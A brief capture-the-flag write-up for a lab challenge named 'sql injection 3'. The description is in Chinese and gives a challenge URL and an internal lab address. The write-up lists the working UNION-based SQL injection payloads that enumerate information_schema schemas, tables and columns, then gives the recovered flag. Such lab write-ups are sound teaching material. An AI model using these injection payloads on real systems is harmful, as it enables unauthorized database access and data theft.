




# sql injection 3
## Description
> 哇 一個網站藏 3 個 flag ，是怎辦到的阿
>
> 請用 https 連線
>
> 請不要拿工具掃他
>
> 因學校會做連線檢查 改成用 _POST 解法一樣
>
> cdx 上仍然是 _GET
>
> https://me.zongyuan.nctu.me/sqlinject/sql.php
>
> cdx : http://10.101.1.30/sqlinject/sql.php
---
## Writeup
Use `’union select schema_name,1 from information_schema.schemata limit 1,1 #’` to find which database the flag is at.

Next use `’union select table_name,1 from information_schema.tables where table_schema like ‘flag_is_here’#’` to find which table the flag is at.

Then use `’union select column_name,1 from information_schema.columns where table_name like ‘secret’#’` to find which column the flag is at.

After we found all the information above, we can use `’union select flag,1 from flag_is_here.secret#’` to get the flag.

flag : balqs{schema_power}